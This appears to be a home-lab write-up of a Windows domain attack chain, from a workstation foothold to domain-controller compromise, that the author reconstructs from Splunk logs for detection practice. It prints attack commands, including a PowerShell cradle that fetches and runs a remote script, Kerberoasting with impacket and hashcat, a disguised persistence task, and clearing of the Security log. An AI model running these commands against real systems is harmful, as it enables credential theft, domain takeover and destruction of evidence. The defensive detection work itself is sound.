


# Attack Chain: Workstation Foothold to Domain Compromise

**A six-stage intrusion executed in the lab, detected at each stage, and reconstructed from logs alone.**

MITRE ATT&CK techniques: T1059.001, T1558.003, T1003.001, T1021.006, T1053.005, T1070.001

---

## Summary

I executed a realistic multi-stage attack against the lab domain — starting from code
execution on a single workstation and ending with full domain-controller compromise and
log tampering. Every stage generated telemetry that was forwarded to Splunk. I then switched
roles and reconstructed the entire intrusion **from the evidence alone**, starting from one
alert and pivoting host-to-host back to the initial foothold.

The point of this exercise is not that individual attacks were detected — it's that a scattered
set of events across two hosts can be assembled into a coherent incident story. That
reconstruction is the core of SOC analyst work.

**Environment:** `corp.lab` domain · WS01 (Windows 11 workstation) · DC01 (domain controller) ·
attacker on Kali · telemetry via Sysmon + Windows audit logs → Universal Forwarder → Splunk.

---

## The attack, stage by stage

| # | Stage | Technique | Host | Key evidence | Detected |
|---|-------|-----------|------|--------------|----------|
| 1 | Initial execution | T1059.001 | WS01 | Sysmon 1 (encoded cmd), 4104 (decoded) | Yes |
| 2 | Credential access | T1558.003 | DC01 | 4769 RC4 for svc-sql | Yes |
| 3 | Credential dumping | T1003.001 | WS01 | Attempt only — blocked by LSA Protection | Partial |
| 4 | Lateral movement | T1021.006 | WS01→DC01 | 4624 type 3, 4672, 4769 for DC01$ | Yes |
| 5 | Persistence | T1053.005 | DC01 | 4698 + Sysmon 1 (schtasks) | Yes |
| 6 | Defense evasion | T1070.001 | DC01 | 1102 (Security log cleared) | Yes |

### Stage 1 — Initial execution (T1059.001)
The foothold: an encoded PowerShell download cradle on WS01, simulating a phished user
running a malicious command.

```powershell
powershell.exe -NoProfile -EncodedCommand <base64 of: IEX (New-Object Net.WebClient).DownloadString('http://10.10.40.10/a.ps1')>
```

Two independent signals captured this:
- **Sysmon Event 1** — the process with the `-EncodedCommand` blob on the command line (the obfuscated view)
- **Event 4104** — PowerShell script block logging, showing the **decoded** `IEX ... DownloadString` (the real intent)

The encoding defeats command-line keyword matching but not script block logging — the attacker's
obfuscation is transparent to one of the two data sources. Layered logging in action.

### Stage 2 — Credential access via Kerberoasting (T1558.003)
From Kali, as an ordinary domain user, requested a service ticket for the `svc-sql` service
account and cracked it offline.

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.30.10 corp.lab/bkiss -outputfile chain.txt
hashcat -m 13100 chain.txt rockyou.txt -r rockyou-30000.rule
```

The ticket is encrypted with svc-sql's password hash, so cracking it offline recovered the
plaintext password. svc-sql was (deliberately, as a realistic misconfiguration) a member of
Domain Admins — so one weak service-account password yielded domain-level privilege.

Evidence: **Event 4769** on DC01 — a service ticket request for svc-sql using RC4 (0x17)
encryption, from the attacker's IP. The request is logged regardless of whether the crack
succeeds, which is precisely why the attack is detectable: you cannot prevent the ticket
request, only observe it.

### Stage 3 — Credential dumping (T1003.001) — attempted, blocked
Attempted to dump LSASS memory on WS01 via the comsvcs.dll minidump method.

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2   # comsvcs.dll MiniDump
```

**The dump was blocked** — LSASS protection (LSA Protection / RunAsPPL) denied the memory
access before a handle was opened, so no dump file was produced. This is the host hardening
working as intended.

Notably, the attacker's **preparation** to enable dumping was still caught: disabling
RunAsPPL writes to the registry, captured as **Sysmon Event 13** on the `Lsa\RunAsPPL` key.
Detecting the setup for an attack, even when the attack itself fails, is a stronger position
than relying solely on catching the payload.

> Defense-in-depth note: this stage demonstrates a control defeating an attack while the
> attempt still generated evidence. A blocked attack that leaves a trace is a good outcome.

### Stage 4 — Lateral movement (T1021.006)
Using the cracked svc-sql credentials, executed a command on DC01 from WS01 via WinRM.

```powershell
$cred = New-Object PSCredential("CORP\svc-sql", <secure password>)
Invoke-Command -ComputerName dc01.corp.lab -Credential $cred -ScriptBlock { hostname; whoami }
```

This is the pivot that turns a workstation compromise into a domain compromise. Evidence on DC01:
- **Event 4624 (logon type 3)** — svc-sql network logon
- **Event 4672** — special privileges assigned (svc-sql logging on as admin)
- `wsmprovhost.exe` process — the WinRM provider host, the fingerprint of remote execution

**Key investigative detail:** the 4624 logon event on DC01 recorded **no source IP**
(`Workstation_Name` and `Source_Network_Address` were blank) — a known behavior for
Kerberos-based network logons. The source was recovered by pivoting to **Event 4769**: the
service ticket request for `DC01$` was stamped with the origin IP, `10.10.30.102` = WS01.

*A single event was incomplete; correlating a second event filled the gap. This is the
central skill of the whole exercise.*

### Stage 5 — Persistence (T1053.005)
On DC01 (via the same remote session), created a scheduled task disguised as "WindowsUpdate"
that runs encoded PowerShell at logon.

```powershell
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -enc <base64>" /sc onlogon /f
```

Evidence on DC01:
- **Event 4698** — scheduled task created, with the full task XML
- **Sysmon Event 1** — the `schtasks /create` command line, showing `svc-sql` as the creator

Three red flags in one event: a service account creating a task on a domain controller, a
name masquerading as a Windows component, and an encoded PowerShell payload.

### Stage 6 — Defense evasion (T1070.001)
Cleared the Security event log on DC01 to cover tracks.

```powershell
Clear-EventLog -LogName Security   # (run remotely as svc-sql)
```

Evidence: **Event 1102** — "the audit log was cleared" — on DC01, by svc-sql.

This is the closing lesson of the chain: the attacker destroyed the local logs on the most
important machine in the domain, but every event — including the log-clearing itself — had
already been forwarded to Splunk and was beyond their reach. **Centralized logging is what
makes track-covering futile.**

---

## The reconstruction

The above is the attacker's view. The analyst's job is the reverse: start from one alert,
knowing nothing else, and rebuild the story. I did this from the evidence alone.

### Pivot 1 — start at the alert
An alert fired: **logs cleared on DC01 (1102) by svc-sql**. First question: *svc-sql is a
service account — why is it clearing logs on a domain controller?* That's already anomalous.
So: what else did svc-sql do on DC01?

```
index=winlogs host=DC01 (Account_Name=svc-sql OR User="*svc-sql*") | sort _time
```

This surfaced svc-sql's entire footprint on the DC: a network logon with admin privileges
(4624 + 4672), remote-execution artifacts (`wsmprovhost.exe`), the scheduled task (4698 /
`schtasks ... WindowsUpdate ... -enc`), and the log clear. New question: **where did svc-sql
come from?**



### Pivot 2 — trace the source
The 4624 logon carried no source IP. Pivoted to the ticket request instead:

```
index=winlogs EventCode=4769 Account_Name="svc-sql*" Service_Name="DC01$" | table _time, Client_Address
```

→ `Client_Address = 10.10.30.102` = **WS01**. The lateral movement originated from the
workstation. New question: **what happened on WS01 that led to svc-sql being used?**



*The 4624 logon on the DC had no source IP (a known behavior for Kerberos network logons) — the
source was recovered from the 4769 ticket request, which is stamped with the origin. Correlating
a second event to fill a gap in the first is the core move of the whole reconstruction.*

### Pivot 3 — back to patient zero
On WS01, traced svc-sql and pre-lateral-movement activity:

```
index=winlogs host=WS01 (EventCode=4769 OR EventCode=4104 OR (EventCode=1 CommandLine="*EncodedCommand*")) | sort _time
```

This revealed, working backwards: the **Kerberoast** (svc-sql ticket requested and cracked),
and before it, the **encoded PowerShell execution** — the initial foothold. **Patient zero.**

### The reconstructed timeline

```
Log clear on DC01 (1102)
  ← Persistence task on DC01 (4698)
    ← svc-sql admin logon on DC01 (4624/4672) — sourced to WS01 via 4769
      ← svc-sql credentials cracked (Kerberoast, 4769 RC4 on WS01)
        ← Initial encoded-PowerShell execution on WS01 (Sysmon 1 / 4104)  ← PATIENT ZERO
```

Starting from a single alert and following the evidence host-to-host, the entire kill chain
was rebuilt in the correct order — the same intrusion that was scripted, recovered purely
from logs.

---

## What this demonstrates

- **End-to-end intrusion detection** across execution, credential access, lateral movement,
  persistence, and defense evasion.
- **Correlation over single-event reliance** — recovering a missing source IP from a second
  event type is the difference between "the IP field is blank, dead end" and a solved case.
- **Defense-in-depth understanding** — a blocked attack (LSASS) that still left a detectable
  trace is a realistic and favorable outcome, not a failure.
- **The value of centralized logging** — the attacker cleared the DC's logs and it changed
  nothing, because the evidence was already off the box.

## Notes / to expand later
- Add Splunk screenshots for each stage (the real events, not just queries).
- Turn each stage's detection into a link to its file in `detections/`.
- Consider a single annotated timeline graphic of the six stages.
- Add the exact timestamps from the run as a reference table.
